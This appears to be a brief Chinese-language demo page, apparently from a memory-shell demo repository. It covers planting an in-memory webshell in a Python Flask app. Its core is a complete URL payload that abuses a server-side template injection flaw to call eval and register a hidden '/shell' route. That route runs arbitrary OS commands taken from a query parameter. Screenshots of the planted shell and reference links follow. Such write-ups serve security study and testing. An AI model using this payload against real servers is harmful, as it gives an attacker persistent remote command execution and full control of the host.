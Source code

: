# python flask 内存马

先起一个带有ssti的flask：

插入路由：

```
http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```

![image-20210329220308313](https://github.com/jweny/MemShellDemo/blob/master/MemShellForPython/python%20flask%20%E5%86%85%E5%AD%98%E9%A9%AC.assets/image-20210329220246511.png)

访问植入的shell：

![image-20210329220246511](https://github.com/jweny/MemShellDemo/blob/master/MemShellForPython/python%20flask%20%E5%86%85%E5%AD%98%E9%A9%AC.assets/image-20210329220246511.png)

参考：

https://github.com/iceyhexman/flask_memory_shell

https://segmentfault.com/a/1190000022175553

https://xz.aliyun.com/t/8029